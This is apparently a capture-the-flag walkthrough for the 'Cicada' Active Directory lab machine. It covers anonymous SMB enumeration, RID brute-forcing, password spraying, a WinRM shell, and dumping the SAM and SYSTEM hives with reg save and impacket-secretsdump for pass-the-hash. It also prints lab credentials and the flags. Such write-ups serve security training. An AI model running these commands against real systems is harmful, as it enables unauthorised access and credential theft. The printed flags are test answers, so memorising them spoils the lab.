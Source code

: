 ```yaml
---
sticker: emoji//1fab0
---
```

# ENUMERATION
---

## OPEN PORTS
---

| PORT   | SERVICE       |
| :----- | :------------ |
| 53/tcp | domain        |
| 88/tcp | kerberos-sec  |
| 135/tcp| msrpc         |
| 139/tcp| netbios-ssn   |
| 389/tcp| ldap          |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5?     |
| 593/tcp| ncacn_http    |
| 636/tcp| ssl/ldap      |
| 3268/tcp| ldap         |
| 3269/tcp| ssl/ldap     |
| 5985/tcp| http         |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116135823.png)


We found interesting shares, let's check out `HR`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116142124.png)

```


We can read `user.txt` and begin with privilege escalation:

```ad-note
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116142600.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116144219.png)

And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```

